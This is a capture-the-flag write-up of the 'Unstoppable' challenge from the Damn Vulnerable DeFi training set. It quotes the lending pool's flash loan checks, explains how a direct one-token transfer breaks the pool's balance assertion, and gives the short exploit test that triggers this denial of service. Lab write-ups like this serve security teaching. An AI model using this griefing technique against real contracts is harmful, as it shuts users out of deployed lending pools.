 ```yaml
---
description: 'Challenge #1'
---
```


# Unstoppable

## Mission

There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to <mark style="color:yellow;">attack and stop the pool from offering flash loans</mark> ...

"You start with 100 DVT tokens in balance."

* The goal is to stop the pool from offering <mark style="color:yellow;">flash loans</mark>
* Essentially a Denial of Service (DoS) attack

## Exploit

* We know that we need to cause a form of DoS
* We need to discover where the flash loan function occurs

### Flash Loan Function

```
// ...
require(borrowAmount > 0, "Must borrow at least one token");
require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
assert(poolBalance == balanceBefore);
require(
  balanceAfter >= balanceBefore,
  "Flash loan hasn't been paid back"
);
```

* Now we have identified where the flash loan function takes place
* The borrow amount must be greater than zero
* <mark style="color:yellow;">If the balance and the pool balance are not equivalent, the contract will always fail on the flash loan function above</mark>

### Exploit Code

Add the following to the //enter exploit code here function in the challenge.js file:

```
it('Exploit', async function () {
        // transfer tokens to it to break it!
    await this.token.transfer(this.pool.address, 1)
    });
```

* Go to terminal and execute <mark style="color:yellow;">`yarn run unstoppable`</mark> inside the /damn-vulnerable-defi folder and you will get a checkmark next to the unstoppable challenge

### Proof

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
